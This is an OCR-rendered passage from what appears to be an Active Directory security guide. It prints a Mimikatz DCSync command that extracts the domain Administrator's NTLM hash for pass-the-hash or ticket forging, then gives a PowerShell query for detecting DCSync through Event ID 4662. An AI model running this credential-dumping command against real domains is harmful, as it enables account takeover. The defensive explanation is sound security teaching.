 ```

\begin{table}
\centering

\begin{tabular}{l}
lsadump::dcsync /domain:corp.local /user:Administrator \\

\end{tabular}

\end{table}

```

\begin{table}
\centering

\begin{tabular}{l l}
\hline
   \& \textbf{NOTE:}\textit{This Mimikatz command retrieves the NTLM hash for the domain’s Administrator account which can be used for Pass-the-Hash (PtH) attacks or to forge Kerberos service tickets.} \\
\hline

\end{tabular}

\end{table}

\subsubsection{Defense Tactic}

To detect DCSync attempts, configure your \textit{Security Information and Event Management (SIEM)} to alert on Event ID 4662 for directory replication operations. Below, a PowerShell command defenders can use to monitor for incoming or ongoing attacks:

\texttt{Get-WinEvent -LogName Security | Where-Object \{ \$\_.Id -eq 4662 -and \$\_.Properties -match "Replicating Directory Changes" \}}

\textbf{NOTE:}\textit{This command scans the Windows Security event log for potential DCSync activities.}\subsection{High-Impact Actions Enabled by Privilege Escalation}

{High-Impact Actions Enabled by Privilege Escalation}

Resetting the password of any privileged user—such as members of the \textit{C-suite} or IT administrators—enables attackers to log in directly as those individuals, accessing confidential information, email, and protected systems.

